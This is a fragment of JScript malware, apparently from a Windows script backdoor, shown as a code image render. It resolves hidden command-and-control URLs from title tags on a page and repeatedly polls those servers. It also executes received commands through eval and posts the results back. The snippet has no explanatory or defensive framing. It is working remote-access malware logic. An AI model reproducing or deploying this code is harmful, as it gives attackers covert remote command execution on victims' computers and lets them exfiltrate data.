 ```

          var response = $.oHttp.ResponseText.replace(/(^\s*)|(\s*$)/g, "");
          var re = /<title>@(.*)@<\/title>+/g;
          var titleList = response.match(re);
          for (var i = 0; i < titleList.length; i++) {
            try {
              oXml.loadXML(titleList[i]);
              var container = oXml.getElementsByTagName("title");
              var tmpstr = container[0].text.match("@(.*)@");
              UrlList[URLnum++] = $.circleDecode(tmpstr[1]);
            } catch (e) {}
          }
        }
        for (var Urlindex = 0; Urlindex < UrlList.length; Urlindex++) {
          $.sXmlUrl = UrlList[Urlindex];
          var runnum = 360;
          while (runnum-- > 0) {
            $.oHttp.Open("POST", $.sXmlUrl, false);
            $.oHttp.setRequestHeader(
              "CONTENT-TYPE",
              "application/x-www-form-urlencoded"
            );
            $.oHttp.Send($.sURLParam);
            
            var response = $.oHttp.ResponseText.replace(/(^\s*)|(\s*$)/g, "");
            if (response.length > 0) {
              var commands = null;
              var container;
              try {
                oXml.loadXML(response);
                container = oXml.getElementsByTagName("div");
                for (var i = 0; i < container.length; i++) {
                  if (container[i].getAttribute("id") == "0a552b5a4352") {
                    commands = eval("(" + container[i].text + ")").command;
                  }
                }
              } catch (e) {}
              if (commands != null) {
                var commandresult = "";
                for (var i = 0; i < commands.length; i++) {
                  var result = "no response";
                  try {
                    result = eval($.Decode(commands[i].value));
                  } catch (e) {}
                  if (i > 0) {
                    commandresult += ",";
                  }
                  commandresult +=
                    "'" + commands[i].id + "':'" + escape(result) + "'";
                }
                if (commandresult.length > 0) {
                  commandresult = "{" + commandresult + "}";
                  $.oHttp.Open("POST", $.sXmlUrl, false);
                  $.oHttp.setRequestHeader(
                    "CONTENT-TYPE",
                    "application/x-www-form-urlencoded"
                  );
                  $.oHttp.Send(
                    $.sURLParam +
                      "&command=result&commandresult=" +
                      commandresult
                  );
                }
```